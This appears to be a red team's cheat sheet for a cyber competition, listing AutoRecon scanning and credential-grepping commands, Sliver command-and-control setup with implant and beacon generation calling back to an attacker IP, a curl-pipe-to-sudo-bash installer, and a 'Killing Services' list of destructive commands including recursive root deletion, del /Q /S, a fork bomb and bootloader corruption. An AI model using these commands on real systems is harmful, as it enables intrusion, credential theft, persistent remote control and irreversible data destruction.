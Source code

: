 **AutoRecon**
- Command to run at the start of competition: `sudo autorecon {IP_range} -p 21,22,23,25,53,80,110,111,135,139,143,389,443,445,465,636,873,993,995,1025-1030,1080,1433,1521,1723,3306,3389,5432,5900,5985,6379,6667,8000,8080,8443,8888 -o autorecon_results --max-scans 100 --heartbeat 30`
  - If we want, we can `nmap -sn {IP_range}` and pass the alive hosts into `-t alive-hosts.txt`
- Overall status: `find autorecon_results -name "*.txt" -type f -exec grep -l "open" {} \; | sort`
- Common vulns: `grep -r "MS17-010\|CVE-\|Anonymous\|Password:" autorecon_results`
- Anonymous access: `grep -r "Anonymous" autorecon_results`
- Find DC: `grep -r "Domain Controller" autorecon_results`
- Passwords: `grep -r "Password:\|Credentials:" autorecon_results`
- Missing SMB signing: `grep -r "SMB signing required: false" autorecon_results`

**Sliver**
- Can build from source with `sudo apt install golang-go`, `curl https://sliver.sh/install | sudo bash`, and `cd sliver && make`
- To make sure we don't kill the mf server, let's operate from a client
  - Start up tmux and run `sliver-server`
  - On the server: `new-operator --name malfuncti0nal --lhost localhost` and `multiplayer` to enable clients
  - On the client, outside of tmux: `sliver-client import {config_file}` and `sliver-client` to join
- `mtls` can be used to start listening for incoming sessions
- Then, use `generate` to create implants or beacons
  - `generate --mtls {our_IP} --os linux` for an implant
  - `generate beacon --mtls 10.10.0.171 -j {jitter} -S {wait_seconds} --os linux` 
  - Windows: `generate --mtls 10.10.0.171 --os windows --arch x64 --format exe ` 
- `sessions` to show active sessions
  - `sessions -i {id}` to interact with session
    - `CTRL + d` to exit
    - `shell {command}` will execute command in a session (can maybe run without `shell`?)
    - `getprivs` will list privileges available, probably use /ProgramData/ for potatoes?
    - `info` - host info
    - `ps` - process list
    - `upload`/`download` - file transfer
    - `screenshot` - grab a screenshot
- `beacons` to show active beacons
  - `use {beacon_id}` to use a beacon
    - `interactive` to turn it into a normal session
- Armory:
  - Install all with `armory install all`
  - Sharphound: `sharp-hound-4 -- '-c all,GPOLocalGroup'`shs

**Killing Services**
- Soft breaks:
  - `systemctl stop {service}` 
    - This is too kind, we shant do this :>
  - Edit service configs
  - Drop 50% of incoming firewall packets
  - Reset default credentials
- Hard breaks:
  - Delete configs
  - Destructive firewall rules
  - Remove scoring assets
  - Delete entire binaries/files
- Nukes:
  - `rm -rf / -no-preserve-root`
  - `del /Q /S`
  - Fork bombing (`:(){ :|:& };:`)
  - Corrupt bootloader partition (oh my god this is evil)

